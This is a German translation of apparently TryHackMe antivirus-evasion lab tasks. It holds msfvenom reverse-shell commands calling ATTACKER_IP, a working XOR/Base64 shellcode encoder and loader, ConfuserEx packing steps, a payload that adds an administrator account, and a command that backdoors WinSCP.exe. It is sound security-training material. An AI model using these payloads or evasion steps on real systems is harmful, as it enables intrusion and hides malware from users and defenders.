Lassen Sie uns einen XOR-verschlüsselten Payload erstellen. Bei diesem Algorithmustyp müssen Sie einen Schlüssel angeben. Der Befehl würde wie folgt aussehen:
```shell           
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe        
```

Wenn wir die resultierende Shell erneut auf die THM Antivirus Check! Seite unter ```http://MACHINE_IP/``` hochladen, wird sie immer noch vom AV erkannt. Der Grund dafür ist, dass AV-Anbieter viel Zeit investiert haben, um sicherzustellen, dass einfache msfvenom-Payloads erkannt werden.

### Erstellung eines benutzerdefinierten Payloads

Der beste Weg, dies zu umgehen, besteht darin, eigene benutzerdefinierte Encoding-Schemata zu verwenden, sodass das AV-Programm nicht weiß, wie es unseren Payload analysieren soll. Beachten Sie, dass Sie nichts allzu Komplexes tun müssen, solange es für das AV-Programm verwirrend genug ist, um die Analyse zu erschweren. Für diese Aufgabe werden wir eine einfache Reverse Shell verwenden, die mit msfvenom generiert wurde, und eine Kombination aus XOR und Base64 anwenden, um Defender zu umgehen.

Lassen Sie uns mit der Generierung einer Reverse Shell im CSharp-Format mit msfvenom beginnen:
```shell           
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

### Der Encoder

Bevor wir unseren tatsächlichen Payload erstellen, werden wir ein Programm erstellen, das den von msfvenom generierten Shellcode nimmt und ihn nach Belieben verschlüsselt. In diesem Fall werden wir den Payload zuerst mit einem benutzerdefinierten Schlüssel XORieren und dann mit Base64 codieren. Hier ist der vollständige Code für den Encoder (Sie finden diesen Code auch auf Ihrem Windows-Rechner unter C:\Tools\CS Files\Encryptor.cs):

```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

Der Code ist ziemlich einfach und wird einen verschlüsselten Payload generieren, den wir in den finalen Payload einbetten werden. Denken Sie daran, die Variable `buf` durch den Shellcode zu ersetzen, den Sie mit msfvenom generiert haben.

Um den Encoder zu kompilieren und auszuführen, können wir die folgenden Befehle auf dem Windows-Rechner verwenden:
```cmd
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

Selbst-dekodierender Payload

Da wir einen verschlüsselten Payload haben, müssen wir unseren Code anpassen, damit er den Shellcode entschlüsselt, bevor er ihn ausführt. Um den Encoder zu entsprechen, werden wir alles in reverser Reihenfolge entschlüsseln, wie wir es verschlüsselt haben. Wir beginnen also damit, den Base64-Inhalt zu entschlüsseln, und setzen dann fort, indem wir das Ergebnis mit demselben Schlüssel XORieren, den wir im Encoder verwendet haben. Hier ist der vollständige Payload-Code (Sie können ihn auch auf Ihrem Windows-Rechner unter `C:\Tools\CS Files\EncStageless.cs` erhalten):

```cs
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Beachten Sie, dass wir lediglich ein paar wirklich einfache Techniken kombiniert haben, die erkannt wurden, als sie separat verwendet wurden. Dennoch wird das AV-Programm sich diesmal nicht über den Payload beschweren, da die Kombination beider Methoden nichts ist, was es direkt analysieren kann.

Lassen Sie uns unseren Payload mit dem folgenden Befehl auf dem Windows-Rechner kompilieren:
```cmd
C:\> csc.exe EncStageless.cs
```

Bevor wir unseren Payload ausführen, richten wir einen `nc` Listener ein. Nachdem wir unseren Payload auf die Zielmaschine kopiert und ausgeführt haben, sollten wir wie erwartet eine Verbindung zurückbekommen:
```shell           
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

Wie Sie sehen können, sind manchmal einfache Anpassungen ausreichend. In den meisten Fällen funktionieren spezifische Methoden, die Sie online finden, wahrscheinlich nicht sofort, da bereits Erkennungssignaturen für sie existieren könnten. Wenn Sie jedoch ein wenig Fantasie verwenden, um jede Methode anzupassen, könnte dies ausreichen, um eine erfolgreiche Umgehung zu erreichen.

## Fragen:
Versuchen Sie, diese Technik (Kombination aus Encoding und Verschlüsselung) auf der THM Antivirus Check-Seite unter http://MACHINE_IP/ anzuwenden. Umgeht sie die installierte AV-Software?
```
Keine Antwort nötig
```

# Task 9 - Packers
Eine weitere Methode, um die Erkennung durch AV-Software auf der Festplatte zu umgehen, ist die Verwendung eines Packers. **Packer** sind Softwaretools, die ein Programm als Eingabe nehmen und es so transformieren, dass seine Struktur anders aussieht, aber die Funktionalität genau gleich bleibt. Packer verfolgen dabei hauptsächlich zwei Ziele:

- Das Programm komprimieren, damit es weniger Platz einnimmt.
- Das Programm allgemein vor Reverse Engineering schützen.

Packer werden häufig von Softwareentwicklern verwendet, die ihre Software vor Reverse Engineering oder Crackversuchen schützen möchten. Sie bieten einen gewissen Schutz, indem sie eine Mischung aus Transformationen implementieren, die Komprimierung, Verschlüsselung, das Hinzufügen von Debug-Schutzmaßnahmen und viele andere Techniken umfassen. Wie Sie sich vielleicht schon denken können, werden Packer auch häufig verwendet, um Malware zu verschleiern, ohne viel Aufwand betreiben zu müssen.

Es gibt eine Vielzahl von Packern, darunter UPX, MPRESS, Themida und viele andere.

### Anwendung eines Packers

Obwohl jeder Packer unterschiedlich arbeitet, betrachten wir ein einfaches Beispiel dafür, was ein grundlegender Packer tun würde.

Wenn eine Anwendung gepackt wird, wird sie durch eine Packing-Funktion auf irgendeine Weise transformiert. Die Packing-Funktion muss in der Lage sein, den Originalcode der Anwendung zu verschleiern und zu transformieren, so dass er durch eine Unpacking-Funktion wieder vernünftig zurückgeführt werden kann, um die ursprüngliche Funktionalität der Anwendung zu erhalten. Manchmal fügt der Packer möglicherweise zusätzlichen Code hinzu (um beispielsweise das Debuggen der Anwendung zu erschweren), aber im Allgemeinen möchte er den ursprünglichen von Ihnen geschriebenen Code wiederherstellen können, wenn er ausgeführt wird.


Die gepackte Version der Anwendung wird Ihren gepackten Anwendungscode enthalten. Da dieser neue gepackte Code verschleiert ist, muss die Anwendung in der Lage sein, den ursprünglichen Code daraus zu entpacken. Zu diesem Zweck wird der Packer einen Code-Stub einbetten, der einen Unpacker enthält, und den Haupt-Einstiegspunkt der ausführbaren Datei darauf umleiten.

Wenn Ihre gepackte Anwendung ausgeführt wird, wird Folgendes passieren:


1. Der Unpacker wird zuerst ausgeführt, da er der Einstiegspunkt der ausführbaren Datei ist.
2. Der Unpacker liest den gepackten Anwendungscode.
3. Der Unpacker schreibt den originalen, entpackten Code an einer Stelle im Speicher und lenkt den Ausführungsfluss der Anwendung darauf.

### Packer und AV-Programme

Bis jetzt sehen wir, wie Packer helfen können, AV-Lösungen zu umgehen. Angenommen, Sie haben eine ausführbare Datei für eine Reverse Shell erstellt, aber das AV-Programm erkennt sie als schädlich, weil sie mit einer bekannten Signatur übereinstimmt. In diesem Fall wird durch die Verwendung eines Packers die ausführbare Datei für die Reverse Shell so transformiert, dass sie keine bekannten Signaturen auf der Festplatte mehr erfüllt. Dadurch sollten Sie in der Lage sein, Ihren Payload ohne größere Probleme auf die Festplatte einer beliebigen Maschine zu verteilen.

Dennoch könnten AV-Lösungen Ihre gepackte Anwendung aus einigen Gründen erkennen:

- Obwohl Ihr ursprünglicher Code möglicherweise in etwas Unkenntliches transformiert wird, enthält die gepackte ausführbare Datei einen Stub mit dem Code des Unpackers. Wenn der Unpacker eine bekannte Signatur hat, könnten AV-Lösungen allein aufgrund des Unpacker-Stubs jede gepackte ausführbare Datei kennzeichnen.
- Irgendwann wird Ihre Anwendung den ursprünglichen Code in den Speicher entpacken, damit er ausgeführt werden kann. Wenn die AV-Lösung, die Sie umgehen möchten, in der Lage ist, Scans im Speicher durchzuführen, könnten Sie möglicherweise immer noch erkannt werden, nachdem Ihr Code entpackt wurde.

### Verpacken unseres Shellcodes

Lassen Sie uns mit einem grundlegenden C#-Shellcode beginnen. Sie finden diesen Code auch auf Ihrem Windows-Rechner unter C:\Tools\CS Files\UnEncStagelessPayload.cs:
```cs
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Dieser Payload nimmt einen Shellcode, der von msfvenom generiert wurde, und führt ihn in einem separaten Thread aus. Damit dies funktioniert, müssen Sie einen neuen Shellcode generieren und ihn in die Variable `shellcode` des Codes einfügen:
```cmd
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

Anschließend können Sie Ihren Payload auf dem Windows-Rechner mit dem folgenden Befehl kompilieren:
```cmd
C:\> csc UnEncStagelessPayload.cs
```

Sobald Sie eine funktionierende ausführbare Datei haben, können Sie versuchen, sie auf der THM Antivirus Check! Seite hochzuladen (Link auf dem Desktop). Sie sollte sofort vom AV markiert werden. Lassen Sie uns denselben Payload mit einem Packer versehen und sehen, was passiert.

Für diese Aufgabe werden wir den [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) Packer verwenden, da unsere Payloads auf `.NET` programmiert sind. Für Ihre Bequemlichkeit finden Sie eine Verknüpfung dazu auf Ihrem Desktop.

ConfuserEx wird Sie auffordern, die Ordner anzugeben, in denen es arbeiten soll. Stellen Sie sicher, dass Sie Ihren Desktop als Basisverzeichnis auswählen, wie im Bild unten gezeigt. Sobald das Basisverzeichnis eingerichtet ist, ziehen Sie die ausführbare Datei, die Sie packen möchten, auf die Oberfläche, und Sie sollten folgendes Ergebnis erhalten:  


Lassen Sie uns zum Einstellungs-Tab gehen und unseren Payload auswählen. Sobald ausgewählt, klicken Sie auf die Schaltfläche "+" , um Einstellungen zu Ihrem Payload hinzuzufügen. Dadurch sollte eine Regel namens "true" erstellt werden. Stellen Sie sicher, dass Sie auch die Komprimierung aktivieren:  


Jetzt werden wir die Regel "true" bearbeiten und sie auf das Maximum-Voreinstellung setzen:  


Abschließend gehen wir zum Tab "Schützen!" und klicken auf "Schützen":  


Der neue Payload sollte nun bereit sein und hoffentlich keine Alarme auslösen, wenn er auf den THM Antivirus Checker (Verknüpfung auf Ihrem Desktop verfügbar) hochgeladen wird. Tatsächlich sollten Sie, wenn Sie Ihren Payload ausführen und einen `nc` Listener einrichten, eine Shell zurückbekommen:

```shell
user@attackbox$ nc -lvp 7478
```

Bis hierher gut, aber erinnern Sie sich daran, dass wir über AVs gesprochen haben, die In-Memory-Scans durchführen? Wenn Sie versuchen, einen Befehl auf Ihrer Reverse Shell auszuführen, wird das AV Ihre Shell bemerken und beenden. Dies liegt daran, dass Windows Defender bestimmte Windows-API-Aufrufe abfängt und bei Verwendung solcher API-Aufrufe In-Memory-Scans durchführt. Bei jeder mit msfvenom generierten Shell wird beispielsweise CreateProcess() aufgerufen und erkannt.

### Was tun wir jetzt?

Obwohl die Überwindung von In-Memory-Scans nicht im Rahmen dieses Raums liegt, gibt es ein paar einfache Dinge, die Sie tun können, um die Erkennung zu vermeiden:

- **Warten Sie einfach einen Moment**. Versuchen Sie, die Reverse Shell erneut zu starten und warten Sie etwa 5 Minuten, bevor Sie einen Befehl senden. Sie werden sehen, dass das AV dann keine Beschwerden mehr führt. Der Grund dafür ist, dass das Scannen des Speichers eine ressourcenintensive Operation ist. Das AV wird es also eine Weile nach dem Start Ihres Prozesses tun, aber es wird schließlich aufhören.
- **Verwenden Sie kleinere Payloads**. Je kleiner die Payload ist, desto weniger wahrscheinlich ist es, dass sie erkannt wird. Wenn Sie beispielsweise msfvenom verwenden, um einen einzelnen Befehl auszuführen, anstatt eine Reverse Shell zu erhalten, wird es für das AV schwieriger sein, sie zu erkennen. Versuchen Sie es mit dem Befehl `msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp` und sehen Sie, was passiert.

Wenn die Erkennung kein Problem darstellt, können Sie sogar einen einfachen Trick anwenden. Führen Sie von Ihrer Reverse Shell aus erneut cmd.exe aus. Das AV wird Ihre Payload erkennen und den zugehörigen Prozess beenden, aber nicht das neue `cmd.exe`, das Sie gerade gestartet haben.

Jedes AV-Programm verhält sich unterschiedlich, aber meistens gibt es einen ähnlichen Weg um sie herum, daher lohnt es sich, jedes seltsame Verhalten zu erkunden, das Sie beim Testen bemerken

## Fragen:
Helfen Packer Ihnen, Ihren bösartigen Code zu verschleiern, um AV-Lösungen zu umgehen? (ja/nein)
```
ja
```

Entpacken Packer oft den ursprünglichen Code im Speicher, bevor sie ihn ausführen? (ja/nein)
```
ja
```

Werden einige Packer von einigen AV-Lösungen als bösartig erkannt? (ja/nein)
```
ja
```

Folgen Sie den Anweisungen, um einen gepackten Payload zu erstellen und ihn auf dem THM Antivirus Check unter http://MACHINE_IP/ hochzuladen.
```
Keine Antwort nötig
```

# Task 10 - Binders
Obwohl keine AV-Umgehungsmethode, sind Binder auch wichtig bei der Gestaltung eines bösartigen Payloads zur Verteilung an Endbenutzer. Ein Binder ist ein Programm, das zwei (oder mehr) ausführbare Dateien zu einer einzigen zusammenfügt. Er wird oft verwendet, um Ihren Payload innerhalb einer bekannten Anwendung zu verteilen, um Benutzer zu täuschen und glauben zu lassen, dass sie eine andere Anwendung ausführen.  


Obwohl jeder Binder etwas anders funktionieren kann, fügen sie im Wesentlichen den Code Ihres Shellcodes in das legitime Programm ein und lassen ihn irgendwie ausführen.

Beispielsweise könnten Sie den Einstiegspunkt im PE-Header ändern, damit Ihr Shellcode direkt vor dem Programm ausgeführt wird, und dann die Ausführung nach Abschluss wieder zum legitimen Programm zurückleiten. Auf diese Weise wird beim Klicken auf die resultierende ausführbare Datei Ihr Shellcode zuerst still ausgeführt, und das Programm läuft normal weiter, ohne dass der Benutzer es bemerkt.

### Binding mit msfvenom

Sie können mit `msfvenom` ganz einfach einen Payload Ihrer Wahl in jede .exe-Datei einpflanzen. Die Binärdatei funktioniert weiterhin wie gewohnt, führt jedoch zusätzlich einen Payload still aus. Die von msfvenom verwendete Methode injiziert Ihr bösartiges Programm, indem es einen zusätzlichen Thread dafür erstellt. Dies ist etwas anders als das zuvor Erwähnte, erreicht jedoch das gleiche Ergebnis. Ein separater Thread ist sogar besser, da Ihr Programm nicht blockiert wird, falls Ihr Shellcode aus irgendeinem Grund fehlschlägt.

Für diese Aufgabe werden wir die WinSCP.exe rückseitig bearbeiten, die unter `C:\Tools\WinSCP` verfügbar ist.

Um eine rückseitige WinSCP.exe zu erstellen, verwenden wir den folgenden Befehl auf unserem Windows-Rechner:

Hinweis: Metasploit ist auf dem Windows-Rechner zur Vereinfachung installiert, aber die Generierung des Payloads kann bis zu drei Minuten dauern (die produzierten Warnungen können sicher ignoriert werden).
```cmd
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

Die resultierende WinSCP-evil.exe wird einen reverse_tcp Meterpreter Payload ausführen, ohne dass der Benutzer es bemerkt. Bevor Sie etwas anderes tun, denken Sie daran, einen `nc` Listener einzurichten, um die Reverse-Shell zu empfangen. Wenn Sie Ihre modifizierte ausführbare Datei ausführen, sollte sie eine Reverse-Shell zu Ihnen zurück starten, während WinSCP.exe weiterhin für den Benutzer ausgeführt wird.  


### Binders und AV

Binder werden nicht viel dazu beitragen, Ihren Payload vor einer AV-Lösung zu verbergen. Die einfache Tatsache, dass zwei ausführbare Dateien ohne Änderungen zusammengefügt werden, bedeutet, dass die resultierende ausführbare Datei immer noch jede Signatur auslösen wird, die der ursprüngliche Payload ausgelöst hätte.

Der Hauptzweck von Bindern besteht darin, Benutzer dazu zu bringen zu glauben, dass sie eine legitime ausführbare Datei ausführen, anstatt einen bösartigen Payload.

Bei der Erstellung eines echten Payloads möchten Sie möglicherweise Encoder, Crypter oder Packer verwenden, um Ihren Shellcode vor signaturbasierten AVs zu verbergen, und ihn dann in eine bekannte ausführbare Datei binden, sodass der Benutzer nicht weiß, was ausgeführt wird.

Versuchen Sie gerne, Ihre gebundene ausführbare Datei auf der THM Antivirus Check-Website (Link auf Ihrem Desktop verfügbar) ohne Verpackung hochzuladen. Sie sollten eine Erkennung vom Server zurückbekommen. Diese Methode wird also nicht besonders hilfreich sein, wenn Sie versuchen, die Flagge vom Server selbst zu erhalten.

## Fragen:
Wird ein Binder helfen, AV-Lösungen zu umgehen? (ja/nein)
```
nein
```

Kann ein Binder verwendet werden, um einen Payload als legitime ausführbare Datei erscheinen zu lassen? (ja/nein)
```
ja
```

# Task 11 - Abschluss
In diesem Raum haben wir einige Strategien erkundet, die einem Angreifer zur Verfügung stehen, um AV-Engines zu umgehen, die ausschließlich auf der Erkennung auf der Festplatte basieren. Obwohl dies nur einer der Mechanismen ist, die jeder modernen AV-Engine zur Verfügung stehen, sollten wir zumindest unsere Payloads auf die Festplatte unseres Opfers übertragen können. Das [Umgehen der Erkennung im Speicher und anderer fortschrittlicher Erkennungsmechanismen](https://tryhackme.com/r/room/runtimedetectionevasion) bleibt einem zukünftigen Raum vorbehalten. Möglicherweise möchten Sie die Runtime Detection Evasion für weitere Informationen über das Umgehen weiterer Windows-Sicherheitsmechanismen überprüfen, die verhindern könnten, dass Ihre Payloads ausgelöst werden.

Denken Sie daran, dass der Erfolg eines Verschlüsselers, Encoders oder Packers weitgehend davon abhängt, dass AV-Engines keine Signaturen dafür kennen. Daher ist es entscheidend, Ihre eigenen Payloads anpassen zu können, wenn Sie versuchen, jede realitätsnahe Lösung zu umgehen.
